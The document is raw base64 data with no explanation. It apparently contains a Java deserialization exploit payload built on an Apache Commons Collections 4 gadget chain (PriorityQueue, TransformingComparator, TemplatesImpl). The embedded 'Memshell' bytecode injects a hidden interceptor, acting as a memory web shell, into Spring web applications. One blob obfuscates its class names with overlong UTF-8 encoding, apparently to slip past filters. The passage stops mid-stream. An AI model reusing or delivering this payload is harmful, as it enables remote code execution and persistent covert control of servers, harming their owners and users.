IAOgA2AAgA4wBWADsANAAJAPIARwA8ADQACgESACcAPQA0AAsBLwAKAD4AQQAMACMBHABCAEMAAgAMATMARABFAAAAIQEeAEYARwABAUMABAAyAEgAAABJAAAAgwAK/gAjBwBKBwAJAf8ATQAGBwBKBwAJAQcASwcATAcASwABBwBNDf8AIAAIBwBKBwAJAQcASwcATAcASwcATAcASwABBwBN/wATAAkHAEoHAAkBBwBLBwBMBwBLBwBMBwBLBwBNAAEHAE36ABP/AHAAAwcASgcACQEAAPgABUIHAE4EAAgATwAoAAEAKQAAACAAAAAAAAAABLgAJbEAAAABACoAAAAKAAIAAAAMAAMADQACAFAAAAACAFEAQAAAAAoAAQAhAG4APwYJdXEAfgAfAAAA8sr+ur4AAAAxABMBAANGb28HAAEBABBqYXZhL2xhbmcvT2JqZWN0BwADAQAKU291cmNlRmlsZQEACEZvby5qYXZhAQAUamF2YS9pby9TZXJpYWxpemFibGUHAAcBABBzZXJpYWxWZXJzaW9uVUlEAQABSgVx5mnuPG1HGAEADUNvbnN0YW50VmFsdWUBAAY8aW5pdD4BAAMoKVYMAA4ADwoABAAQAQAEQ29kZQAhAAIABAABAAgAAQAaAAkACgABAA0AAAACAAsAAQABAA4ADwABABIAAAARAAEAAQAAAAUqtwARsQAAAAAAAQAFAAAAAgAGcHQAAsGQcHcBAHh1cgAkwZvBjMGqwaHBtsGhwK7BrMGhwa7Bp8CuwYPBrMGhwbPBs8C7qxbXrsvNWpkCAAB4cAAAAAF2cgA6warBocG2waHBuMCuwbjBrcGswK7BtMGywaHBrsGzwabBr8Gywa3ArsGUwaXBrcGwwazBocG0waXBswAAAAAAAAAAAAAAeHB3BAAAAANzcgAiwarBocG2waHArsGswaHBrsGnwK7BicGuwbTBpcGnwaXBshLioKT3gYc4AgABSQAKwbbBocGswbXBpXhyACDBqsGhwbbBocCuwazBocGuwafArsGOwbXBrcGiwaXBsoaslR0LlOCLAgAAeHAAAAABcQB+ACl4

rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBhcmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAQm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9uczQuY29tcGFyYXRvcnMuVHJhbnNmb3JtaW5nQ29tcGFyYXRvci/5hPArsQjMAgACTAAJZGVjb3JhdGVkcQB+AAFMAAt0cmFuc2Zvcm1lcnQALUxvcmcvYXBhY2hlL2NvbW1vbnMvY29sbGVjdGlvbnM0L1RyYW5zZm9ybWVyO3hwc3IAQG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9uczQuY29tcGFyYXRvcnMuQ29tcGFyYWJsZUNvbXBhcmF0b3L79JkluG6xNwIAAHhwc3IAO29yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9uczQuZnVuY3RvcnMuQ2hhaW5lZFRyYW5zZm9ybWVyMMeX7Ch6lwQCAAFbAA1pVHJhbnNmb3JtZXJzdAAuW0xvcmcvYXBhY2hlL2NvbW1vbnMvY29sbGVjdGlvbnM0L1RyYW5zZm9ybWVyO3hwdXIALltMb3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zNC5UcmFuc2Zvcm1lcjs5gTr7CNo/pQIAAHhwAAAAAnNyADxvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnM0LmZ1bmN0b3JzLkNvbnN0YW50VHJhbnNmb3JtZXJYdpARQQKxlAIAAUwACWlDb25zdGFudHQAEkxqYXZhL2xhbmcvT2JqZWN0O3hwdnIAN2NvbS5zdW4ub3JnLmFwYWNoZS54YWxhbi5pbnRlcm5hbC54c2x0Yy50cmF4LlRyQVhGaWx0ZXIAAAAAAAAAAAAAAHhwc3IAP29yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9uczQuZnVuY3RvcnMuSW5zdGFudGlhdGVUcmFuc2Zvcm1lcjSL9H+khtA7AgACWwAFaUFyZ3N0ABNbTGphdmEvbGFuZy9PYmplY3Q7WwALaVBhcmFtVHlwZXN0ABJbTGphdmEvbGFuZy9DbGFzczt4cHVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAFzcgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVzSW1wbAlXT8FurKszAwAGSQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WwAKX2J5dGVjb2Rlc3QAA1tbQlsABl9jbGFzc3EAfgAUTAAFX25hbWV0ABJMamF2YS9sYW5nL1N0cmluZztMABFfb3V0cHV0UHJvcGVydGllc3QAFkxqYXZhL3V0aWwvUHJvcGVydGllczt4cAAAAAD/////dXIAA1tbQkv9GRVnZ9s3AgAAeHAAAAACdXIAAltCrPMX+AYIVOACAAB4cAAALr7K/rq+AAAAMQGWAQAITWVtc2hlbGwHAAEBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0BwADAQANZ2V0VXJsUGF0dGVybgEAFCgpTGphdmEvbGFuZy9TdHJpbmc7AQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAApMTWVtc2hlbGw7AQACLyoIAAwBAAxnZXRDbGFzc05hbWUBAAhJbmplY3RvcggADwEAD2dldEJhc2U2NFN0cmluZwEACkV4Y2VwdGlvbnMBABNqYXZhL2lvL0lPRXhjZXB0aW9uBwATAQAQamF2YS9sYW5nL1N0cmluZwcAFQEQgEg0c0lBQUFBQUFBQUFJMVlDWHdVMVIzKy90bE5ack9zZ0FtQ0FUa1Z5TDJBNFVxQ2toQ1FRQktPWUREZ05kbE1rb1hON3JKSFNFUkF2Q2hlZUxmMnNIZXhyYllJc2tta0tqMnNyZmF3cDcxUGU5dVczdHFxOUhzenM4UG1RUGdCTTIvZisxL3YrNS9EaTI4Ly9TeUErZkt3d0ZNZjNtWUVFcEdZQmhGY3NFM3YwZjBoUGR6cFh4SFM0L0dHaU41dThNZ2xXQnlKZGZyajBWZ3czTmtSMDd1Tm5aSFlkdjlPbzgwZk4ySTlJU1BocjRuM2hRT3I5WEI3eUlqVmh4TkdMR0JFVGJuWmdwenFZRGlZdUV6Z0tpeHFFYmhYUk5vTndiaUdZTmhvU25hM0diRk5lbHVJTzNrTmtZQWVhdEZqUWZYYjNuUW51b0p4Z2JjaGJXb1ZEZkpCZzhlTHNSZ25tRnpZTUtyZFZVcVgzQ0NZZElaekplUjhKV1FDYVU2VE5DZlVMV3VUd1pCNStZbTJya200a01aRXlhNE1IVTVPWVpNeEpSZFp1SWozMWFOUkk5d3VLQ3NjU1ZnMFlzdFdSUkhUTUYwcG1rR2t0aHQ5UHN5eVJGN3NuTXlteXhJUmkwMHdvWENrTUVxWmkwSkZXMFFwM2UwTEJYUE95UW95bHFEVVMzVmxhbVVxOWhQQURZeUx3cTIxUmNOQnJCSmtCZHI0MkZvckdOTnVkTkNiNWdIQkpIMTkvVWdPSHhaaWtRSjhNZVgyQ2pUU2JTbFMvUG1uU1ZmMnFzZ0pSc0lhcUVJQ1ZHOEs2dlVIWW4wTUtmK0tZTFNMYU5FWlBYcXNJbjA4akZteDBoTHA1cjh0R2lwc0ZjT0VhRmdwT0s4NW9RZTJOK3BSTytCY05TdWJQVmpOUzNVYWlmcHdQS0dIQTl3dU9pT0t3eTN6WVEzV2VyRUtEWUxwUXdqaVVTUGdiellDTVNPeDF1aHI1aThOVFk2YjF3dkdEMWVoWVNOZFRrTnEreElHTCtRdUpGNCtiTUtWWGpTanhiUlR3VDJLYlMwcWNGdTlXSWN0NUZNWnFFanJMY3E0RVVqR2dvaytQKzB3U2EvR05jcmthK21WOXNpcVlGZ1BNWTZWMzVXNjY2R3JRM283TnhvenJDd1h0QmZhMTAvWGdLNUVJdXBmelVlenRiSFIySkUwNG9tcXM1TEZvNUZ3M0tqS3VNUzZOcFhzVlVVMGZjYnBYY3NiaWFDdVhKd1JLQjFEcVVJaG8xTVAxUVFDUmp5ZVFkWEZXT2dZbXJ5MkdoN3dQcGtPM21oMGhIZ1M3REhXUlkzWVVIMVZLc05qc1hWSkFqcmQ0Z2xHL01wQk5iR1kzc2Y5YURKQkx4aDZOMG0xT0swZ0YwMDhNdzRtaFFycGRqMmhreWRtSVNlWWU0NFFNMGhpTm96cGk1d0Q0TlRVWlpWc3diUjNOazRERTNiMk9SbWpnVVYzenJtWm9PSEdJVkZ2T1VUREhzSFVkMFJXdzAyMmtyTTdUTVBOYkNCZGhxcjZUV3hlUHR4cVpkeHRER2ptMW1yenhJZjlLQjJEWFhpWGMzNkhzM2NYeTRFbG9FVVBKU25oSG92aUlJRVBSTUlKUFJobWRrNFowb3E2OUZpelFvVGxnNEhzdzMyNFh5WHRBN1NGU3B2VFlUR3JzT2hzZ2VIRFEzaFltZkZ1cDgwOEl2QlJ5bnBkZGVPRXN2NTlscVh2NTUzYUZsWFVHUUd6eTA0Y3JXeXBuSDRVSDFURi9rTStMRVdsV24yRTBSRFYrMEpzamg1OHpCSmZreUJIV3pKaG5MMkwyS25rd3lkd2FBejY4SmdwUkpVdXV5dmtGNDdXRVQ2Tng3M1lpeWM0RHd3NzFQQlp3ZGcwdjlXekJRVWpwVGp0L0VrYzhlSXdqdHFOUFF2SGZKaVBCV3JWei92RWg5eG43aWozR2FVQXNUUU80bWwxb2VQMFd6UU5kOXlEWit5VFhYak9IaEgyNGZPOHRJUEFseGd6WVdQbjZSWXl0Rjg3Z0gwWkx5aXp2OEpSSmlPZWs2eHozVVpHREw4b3VERFQ1azFkc2NoTzFiTHNVdjgxTDE3QzExbWJHSE42S0s3YTltZ0YxWWR2NG1VRitiZWMxWGVzTk5qTWhxQWducFEyazdtM25yallCN1QwZS9qK0dPekdLODZBOEVOeXhwTnRjWHNnbVZnNHRPMDdrOFdQOFJNVitqOU5kL3Foa2pYOFhKQzlVNjJIV1ozUnkzNkpYM254Qy96YW5tLzI0amVPUGI4ajBJbUlVeVo4K0lOcWovdndSeWUyWDZQNzIvUzRzYWhpWlRpZEYwTm5Hc2ZVditDdml1T2tvL0h2anA1L092Zit0N0x6VEZkOVhWMzFEWWYvZjR3Yng0MTB5OVJoSGJpUlNhNTNHblhCVHF1UXV6Z2Q4TmxZdDlERHZvUXA3MEN0U1paZy9wa1Q4d3c2T0tDSTJ5c3V5VTVQRXFJeGJrSkd1RFBSWlU3cDlUN0pGYTg2R01PRFpKUnR5YkRtTlRxNHhTZm55VmpGeitsN2dxbW9XMDkwK1d1RG5Xcnk3NlJENVh5eXRadmFmSkpQRlNTZW9BYUtlcUt1b2xVbWVpVlBKaWxudnE1V0JhWUxyK1RjSEZ0QlAvbGtpbkp5czNDYTFpeVhNVEJ6TEJjS3poOWxHRlhUNENLT28yMkVPTHRIRldtN3NaUW5FOEZRZWEzSjZwRkxLTEFqWXJZQjlyT3oxRFM3U01rY21jc01sVUtyY3R2MmVLU1l3OFRXRWVTYWxGcjUxR2drdWlMOENsZytpcGFSYkpsNlkxWXo4MXNTYUVDNStKVUI4NWcvVzBjbXRTWUxXQnZPeEs0SkVjc0pobnNpMjNubHBhTVVoVkZFamxhb1pKRXM5c3BDV1pLdTJsTEpBbTJZYUd5eVAwbzhVdTFZZTVuRHNaejVGaytHeTd1RDhVQjViVTN6eW5RZUVzUmFCOTY2ZENtVVZZNkcxYXFlbWFRZVdlTklibkFrTjZsNTFiQkZYZUtJMm1oNXFpNTlzc2xoYlhGWXIzS1ViRkhCYWxoS3JuWW9yM1Vvcng5cHZpTzV6ZEhaN3BqZjRVaG1OdmtzeWJYSmpnNUZ2ODJSSDNMa2N3andWQWRDNWtkeSttdFRkcVJidmNUVG4zK1NUSDhyeUU1bnJ5Lzl3U2U3MGw5d3NqdGRxR1N2QjVNZFFaeUN4bDhhV0dUTWExdWlMdzNNWDdoZ1FZWHVrVnNkb2Jmelk2aTNqSVlZNFVTWm1rUTk0c3hDY2djTFEyOXZyMGZ1U2c4L2NrL20rWDJaSnc5aUpxdWttK1VyQjluSVZkWUE4Q2hEelBjczh5MksxM3pmWTc1enVlTHQrY3pscnhwS0VMN3ppL3N4dmpoZkRoeVRPL202KzVnY2ZKTGJXZkR5cVVvMWNCSHlNQlZqdVBKWkxIeWZad3JtSUdDTEM1RlMwYzRyTHVuSEJSUjA3ekc1bjY4SGpzbER4ekdwdFI4RlJ6QTFoWmxIY0VrS2MxSW9Ia0Q1VWN3N3JXc3NYSHpPb1BTWjhQTUtTdDlFUzZhdFQ2M3llSzdxTmdjUFcvTXlBcUdvY290TFhDWFA5bVBKWVVka2ptbnVuQXhSdVk2b1hGeUtDbE1VbTVndDZoVnl1UGt1eWFzZlFHTlQyVVdQUUhNZmdqdjdPTmExSHNHR0ZEYm5YZFdQclNsY1YxYVNRdUJ3a3h3MlZUQkVVRTM3dmFhaWJENUxLYXFNdHlqbmlSOUZ0RndaVWNHekhPNHV3MldrTHFKSmwyTzVlZThTeDdBU3VxYkNsRnFDV3F3Z3pSVmNVL29waklOYlE1YUdPdEg0dmFnZXAzaVV1Y2ZGS2ptRlNYRFptNHFxbXRMYVlWQVNMNW5sTTBNR09GbFMvQlJ1SDhTQkxDYldxK3JIbllPNE93dGMzSnZDZzQvZzVaSkJ2RWRRNlM0NWd2Y080Z05aR01DSEs3T0xDN0pkS1h5ME1ydkFuZmZ4UVh3eUN5OWdGdGVmT282czF1SVVQcFBDVS8xSUZXU25NRENJejdsd0NMZVc1RDFia0QySUV5NGN4ejdHd2hjcWM4anh4VUU4bjRVVE9KekNWeXUxUXhoWDZUbU9sMW9MUFAzNHhuTUZXa0ZPQ3QvZVhLQVI2ZTl1TGgzRUR3Ukg4Q1BYK1BFcC9DeUZWd3UwRkg2cjluOHZLRmEwZjNLbjhPY0IvQzJGZjNEM1g0cjZQNHI0dnltODZYcmMvVGp2dndjSGNUODY3WGZROXRoR1RPQnpFZU51TVgyeWhNK2w5RW9sR2xDRjdmUlZrdDdhUTY4Y1JCMjVhdkVndmZJb1ZuSVF2UUpQWURXZVF6MmV4eHJPSm12eEdobzU0Nnd6dmQxQjZRZXBZeHVsYU9UeU1rdTZtWUI3RU9hZkNDUGhVVFRacDBXVUVNVU9odDlpOUNObVJncDk1RVRGU2NTUk1LUGlKTzNwTVlQNUpIYVMxMlhHeHlKa3Y0WHRHdnJvOUZNTWVjMzAveTROdXpYc3RiWTF6bXlNaGx2ZXhCanV2WUhHTnlqdkxSVkFmRmViWmFUVVRvVEh1T2N5L3hleklWOWtRSElhUzR0VDRuSHg0VXZKK09PUzErb3VUY2tGL1hJaEVaYkpLWm5hd0R4cExGSHBrRVZCNVU0NlRPUGx3RGtvQ3kwVXZabnBjUlhQdDVDaWxZbXgxUVJxQm1sem1SYTFlTnU4Mkh5Q1BjWE1ZajlPY1NYbUZmT1JkWXBzdkZZei8xcUJUVFpPbEZaa1M1TlpEb0hkeXVyWkExTFVXSm92SlhKQ3lsSXl2NVR2UzFPeXRJay9xdkpsbWZzWkhHNTE1ZFUxcCtUeU12N1kyK29xNXJybUJKcDVsYXFtZkZreElDc2JlY3NyS3QwRjdwVFU1OHZhREtiR0F2ZHByblVXVnpaejViQlpDSmN6UktvWkxqMzhVRWtqc1lET0JLN2phUnZORGJDa3RwTXVSRXFEbEowTW5pNXNZRkQyMEtsOURJdGREQmFGem1vaU9CVVh5elRUMmJtb2xPa3lnMUkyWUxhNTV5Wm51YjFYaDhVeTB5NHB1MlVXdzBpaHVFc3VkbEFzVW9Wa2hWa2MwaWlld2tKVlJNemZaclhnWTNoczhIdldSbm1MamZJQmhmS0dBV2xXS0Y5cG9ielpScmxWb2J3MVg2NnhBV3NtUnRkbG9LeWZRSjMxbDZqVkVPdkFnQmdLNjA0TDYyQytiTTlnN2M3RU9wTEpleHJ4VlV6Q2FpYmh6Ymh0R09JN2VKcWs2VDFFY1NmcDlwS3lsNVEzRU1GZGpNZ2J5Yk9IWEx1eG54bHlHdkVpV1c4anZ0eEdkek5LekQwM09TdnN2VFZZNWlCK1FHYlpjYnVmaUZka0lsNXZ4MjJkalhpVlF0ejhQVHJpSG9rNnJYcWxtUlFVbEMvN2pzb3QrWExiVWRsdk5sV0pIWkZFU25xT1NHOUtia2pKalFPeTU2amM5S1Rabk5NTjNJY0NOcUhKd1A4QjlSMXpYNXNZQUFBPQgAFwEABjxpbml0PgEAFShMamF2YS9sYW5nL1N0cmluZzspVgwAGQAaCgAWABsBAAMoKVYBAAdjb250ZXh0AQASTGphdmEvbGFuZy9PYmplY3Q7AQALaW50ZXJjZXB0b3IHAAMMABkAHQoAIQAiAQAKZ2V0Q29udGV4dAEAFCgpTGphdmEvbGFuZy9PYmplY3Q7DAAkACUKAAIAJgEADmdldEludGVyY2VwdG9yDAAoACUKAAIAKQEADmFkZEludGVyY2VwdG9yAQAnKExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvT2JqZWN0OylWDAArACwKAAIALQEAE2phdmEvbGFuZy9FeGNlcHRpb24HAC8BABFyZXF1ZXN0QXR0cmlidXRlcwEAC2h0dHByZXF1ZXN0AQAHc2Vzc2lvbgEADnNlcnZsZXRDb250ZXh0AQATYXBwbGljYXRpb25Db250ZXh0cwEAGUxqYXZhL3V0aWwvTGlua2VkSGFzaFNldDsBABJhcHBsaWNhdGlvbkNvbnRleHQBAAtjbGFzc0xvYWRlcgEAF0xqYXZhL2xhbmcvQ2xhc3NMb2FkZXI7AQAVamF2YS9sYW5nL0NsYXNzTG9hZGVyBwA6AQAQamF2YS9sYW5nL09iamVjdAcAPAEADVN0YWNrTWFwVGFibGUBABBqYXZhL2xhbmcvVGhyZWFkBwA/AQANY3VycmVudFRocmVhZAEAFCgpTGphdmEvbGFuZy9UaHJlYWQ7DABBAEIKAEAAQwEAFWdldENvbnRleHRDbGFzc0xvYWRlcgEAGSgpTGphdmEvbGFuZy9DbGFzc0xvYWRlcjsMAEUARgoAQABHAQA8b3JnLnNwcmluZ2ZyYW1ld29yay53ZWIuY29udGV4dC5yZXF1ZXN0LlJlcXVlc3RDb250ZXh0SG9sZGVyCABJAQAJbG9hZENsYXNzAQAlKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL0NsYXNzOwwASwBMCgA7AE0BABRnZXRSZXF1ZXN0QXR0cmlidXRlcwgATwEADGludm9rZU1ldGhvZAEAOChMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9PYmplY3Q7DABRAFIKAAIAUwEACmdldFJlcXVlc3QIAFUMAFEAUgoAAgBXAQAKZ2V0U2Vzc2lvbggAWQwAUQBSCgACAFsBABFnZXRTZXJ2bGV0Q29udGV4dAgAXQwAUQBSCgACAF8BAEJvcmcuc3ByaW5nZnJhbWV3b3JrLndlYi5jb250ZXh0LnN1cHBvcnQuV2ViQXBwbGljYXRpb25Db250ZXh0VXRpbHMIAGEMAEsATAoAOwBjAQAYZ2V0V2ViQXBwbGljYXRpb25Db250ZXh0CABlAQAPamF2YS9sYW5nL0NsYXNzBwBnAQAcamF2YXguc2VydmxldC5TZXJ2bGV0Q29udGV4dAgAaQwASwBMCgA7AGsBAF0oTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsMAFEAbQoAAgBuAQAxb3JnLnNwcmluZ2ZyYW1ld29yay5jb250ZXh0LnN1cHBvcnQuTGl2ZUJlYW5zVmlldwgAcAwASwBMCgA7AHIBAAtuZXdJbnN0YW5jZQwAdAAlCgBoAHUIADUBAAVnZXRGVgwAeABSCgACAHkBABdqYXZhL3V0aWwvTGlua2VkSGFzaFNldAcAewEACGl0ZXJhdG9yAQAWKClMamF2YS91dGlsL0l0ZXJhdG9yOwwAfQB+CgB8AH8BABJqYXZhL3V0aWwvSXRlcmF0b3IHAIEBAARuZXh0DACDACULAIIAhAEANW9yZy5zcHJpbmdmcmFtZXdvcmsud2ViLmNvbnRleHQuV2ViQXBwbGljYXRpb25Db250ZXh0CACGDABLAEwKADsAiAEACGdldENsYXNzAQATKClMamF2YS9sYW5nL0NsYXNzOwwAigCLCgA9AIwBABBpc0Fzc2lnbmFibGVGcm9tAQAUKExqYXZhL2xhbmcvQ2xhc3M7KVoMAI4AjwoAaACQAQAgamF2YS9sYW5nL0NsYXNzTm90Rm91bmRFeGNlcHRpb24HAJIBACtqYXZhL2xhbmcvcmVmbGVjdC9JbnZvY2F0aW9uVGFyZ2V0RXhjZXB0aW9uBwCUAQAfamF2YS9sYW5nL05vU3VjaE1ldGhvZEV4Y2VwdGlvbgcAlgEAIGphdmEvbGFuZy9JbGxlZ2FsQWNjZXNzRXhjZXB0aW9uBwCYAQATamF2YS9sYW5nL1Rocm93YWJsZQcAmgEACWNsYXp6Qnl0ZQEAAltCAQALZGVmaW5lQ2xhc3MBABpMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwEABWNsYXp6AQARTGphdmEvbGFuZy9DbGFzczsBAAFlAQAVTGphdmEvbGFuZy9FeGNlcHRpb247DABBAEIKAEAApAwARQBGCgBAAKYMAA4ABgoAAgCoDABLAEwKADsAqgwAdAAlCgBoAKwMABEABgoAAgCuAQAMZGVjb2RlQmFzZTY0AQAWKExqYXZhL2xhbmcvU3RyaW5nOylbQgwAsACxCgACALIBAA5nemlwRGVjb21wcmVzcwEABihbQilbQgwAtAC1CgACALYIAJ4HAJ0BABFqYXZhL2xhbmcvSW50ZWdlcgcAugEABFRZUEUMALwAoQkAuwC9DAC8AKEJALsAvwEAEWdldERlY2xhcmVkTWV0aG9kAQBAKExqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzOylMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwwAwQDCCgBoAMMBABhqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2QHAMUBAA1zZXRBY2Nlc3NpYmxlAQAEKFopVgwAxwDICgDGAMkBAAd2YWx1ZU9mAQAWKEkpTGphdmEvbGFuZy9JbnRlZ2VyOwwAywDMCgC7AM0MAMsAzAoAuwDPAQAGaW52b2tlAQA5KExqYXZhL2xhbmcvT2JqZWN0O1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DADRANIKAMYA0wwAdAAlCgBoANUBABZhYnN0cmFjdEhhbmRsZXJNYXBwaW5nAQATYWRhcHRlZEludGVyY2VwdG9ycwEAFUxqYXZhL3V0aWwvQXJyYXlMaXN0OwEAFkxvY2FsVmFyaWFibGVUeXBlVGFibGUBAClMamF2YS91dGlsL0FycmF5TGlzdDxMamF2YS9sYW5nL09iamVjdDs+OwEAB2dldEJlYW4IANwBABxyZXF1ZXN0TWFwcGluZ0hhbmRsZXJNYXBwaW5nCADeDABRAG0KAAIA4AgA2AwAeABSCgACAOMBABNqYXZhL3V0aWwvQXJyYXlMaXN0BwDlAQADYWRkAQAVKExqYXZhL2xhbmcvT2JqZWN0OylaDADnAOgKAOYA6QEADGRlY29kZXJDbGFzcwEAB2RlY29kZXIBAAdpZ25vcmVkAQAJYmFzZTY0U3RyAQASTGphdmEvbGFuZy9TdHJpbmc7AQAUTGphdmEvbGFuZy9DbGFzczwqPjsBABZzdW4ubWlzYy5CQVNFNjREZWNvZGVyCADxAQAHZm9yTmFtZQwA8wBMCgBoAPQBAAxkZWNvZGVCdWZmZXIIAPYBAAlnZXRNZXRob2QMAPgAwgoAaAD5DAB0ACUKAGgA+wwA0QDSCgDGAP0BABBqYXZhLnV0aWwuQmFzZTY0CAD/DADzAEwKAGgBAQEACmdldERlY29kZXIIAQMMAPgAwgoAaAEFDADRANIKAMYBBwwAigCLCgA9AQkBAAZkZWNvZGUIAQsMAPgAwgoAaAENDADRANIKAMYBDwEADmNvbXByZXNzZWREYXRhAQADb3V0AQAfTGphdmEvaW8vQnl0ZUFycmF5T3V0cHV0U3RyZWFtOwEAAmluAQAeTGphdmEvaW8vQnl0ZUFycmF5SW5wdXRTdHJlYW07AQAGdW5nemlwAQAfTGphdmEvdXRpbC96aXAvR1pJUElucHV0U3RyZWFtOwEABmJ1ZmZlcgEAAW4BAAFJAQAdamF2YS9pby9CeXRlQXJyYXlPdXRwdXRTdHJlYW0HARsBABxqYXZhL2lvL0J5dGVBcnJheUlucHV0U3RyZWFtBwEdAQAdamF2YS91dGlsL3ppcC9HWklQSW5wdXRTdHJlYW0HAR8MABkAHQoBHAEhAQAFKFtCKVYMABkBIwoBHgEkAQAYKExqYXZhL2lvL0lucHV0U3RyZWFtOylWDAAZASYKASABJwEABHJlYWQBAAUoW0IpSQwBKQEqCgEgASsBAAV3cml0ZQEAByhbQklJKVYMAS0BLgoBHAEvAQALdG9CeXRlQXJyYXkBAAQoKVtCDAExATIKARwBMwEABXNldEZWAQA5KExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nO0xqYXZhL2xhbmcvT2JqZWN0OylWAQAEdmFyMAEABHZhcjEBAAN2YWwBAARnZXRGAQA/KExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7DAE6ATsKAAIBPAEAF2phdmEvbGFuZy9yZWZsZWN0L0ZpZWxkBwE+AQADc2V0DAFAACwKAT8BQQEAA29iagEACWZpZWxkTmFtZQEABWZpZWxkAQAZTGphdmEvbGFuZy9yZWZsZWN0L0ZpZWxkOwwBOgE7CgACAUcMAMcAyAoBPwFJAQADZ2V0AQAmKExqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsMAUsBTAoBPwFNAQAeamF2YS9sYW5nL05vU3VjaEZpZWxkRXhjZXB0aW9uBwFPAQAgTGphdmEvbGFuZy9Ob1N1Y2hGaWVsZEV4Y2VwdGlvbjsMAIoAiwoAPQFSAQAQZ2V0RGVjbGFyZWRGaWVsZAEALShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9yZWZsZWN0L0ZpZWxkOwwBVAFVCgBoAVYMAMcAyAoBPwFYAQANZ2V0U3VwZXJjbGFzcwwBWgCLCgBoAVsMABkAGgoBUAFdAQAMdGFyZ2V0T2JqZWN0AQAKbWV0aG9kTmFtZQwAUQBtCgACAWEBAAFpAQAHbWV0aG9kcwEAG1tMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwEAIUxqYXZhL2xhbmcvTm9TdWNoTWV0aG9kRXhjZXB0aW9uOwEAIkxqYXZhL2xhbmcvSWxsZWdhbEFjY2Vzc0V4Y2VwdGlvbjsBAApwYXJhbUNsYXp6AQASW0xqYXZhL2xhbmcvQ2xhc3M7AQAFcGFyYW0BABNbTGphdmEvbGFuZy9PYmplY3Q7AQAGbWV0aG9kAQAJdGVtcENsYXNzBwFlDACKAIsKAD0BbwEAEmdldERlY2xhcmVkTWV0aG9kcwEAHSgpW0xqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7DAFxAXIKAGgBcwEAB2dldE5hbWUMAXUABgoAxgF2AQAGZXF1YWxzDAF4AOgKABYBeQEAEWdldFBhcmFtZXRlclR5cGVzAQAUKClbTGphdmEvbGFuZy9DbGFzczsMAXsBfAoAxgF9DADBAMIKAGgBfwwBWgCLCgBoAYEMABkAGgoAlwGDDADHAMgKAMYBhQwA0QDSCgDGAYcBABpqYXZhL2xhbmcvUnVudGltZUV4Y2VwdGlvbgcBiQEACmdldE1lc3NhZ2UMAYsABgoAmQGMDAAZABoKAYoBjgwA0QDSCgDGAZAMAYsABgoAmQGSDAAZABoKAYoBlAAhAAIABAAAAAAADgABAAUABgABAAcAAAAtAAEAAQAAAAMSDbAAAAACAAgAAAAGAAEAAAAQAAkAAAAMAAEAAAADAAoACwAAAAEADgAGAAEABwAAABAAAQABAAAABBMAELAAAAAAAAEAEQAGAAIAEgAAAAQAAQAUAAcAAAAXAAMAAQAAAAu7ABZZEwAYtwAcsAAAAAAAAQAZAB0AAgAHAAAAYwADAAMAAAAVKrcAIyq2ACdMKrcAKk0qKyy2AC6xAAAAAgAIAAAAFgAFAAAAHQAEAB4ACQAfAA4AIAAUACIACQAAACAAAwAAABUACgALAAAACQAMAB4AHwABAA4ABwAgAB8AAgASAAAABAABADAAAQAkACUAAgAHAAABfAAHAAcAAACQuABEtgBITAFNKxJKtgBOElC4AFROLRJWuABYOgQZBBJauABcOgUZBRJeuABgOgYrEmK2AGQSZgS9AGhZAysSarYAbFMEvQA9WQMZBlO4AG9NpwAETizHADgrEnG2AHO2AHYSd7gAesAAfE4ttgCAuQCFAQA6BCsSh7YAiRkEtgCNtgCRmQAGGQRNpwAETiywAAIACQBRAFQAMABZAIoAjQAwAAMACAAAAEYAEQAAACUABwAmAAkAKAAVACkAHQAqACYAKwAvACwAUQAuAFQALQBVADAAWQAyAGsAMwB2ADQAhwA1AIoAOACNADcAjgA6AAkAAABcAAkAFQA8ADEAHwADAB0ANAAyAB8ABAAmACsAMwAfAAUALwAiADQAHwAGAGsAHwA1ADYAAwB2ABQANwAfAAQAAACQAAoACwAAAAcAiQA4ADkAAQAJAIcAHgAfAAIAPgAAABwABf8AVAADBwACBwA7BwA9AAEHADAANEIHADAAABIAAAAKAAQAkwCVAJcAmQACACgAJQACAAcAAAFUAAYABwAAAHq4AKW2AKdMAU0rKrYAqbYAq7YArU2nAGNOKrYAr7gAs7gAtzoEEjsSu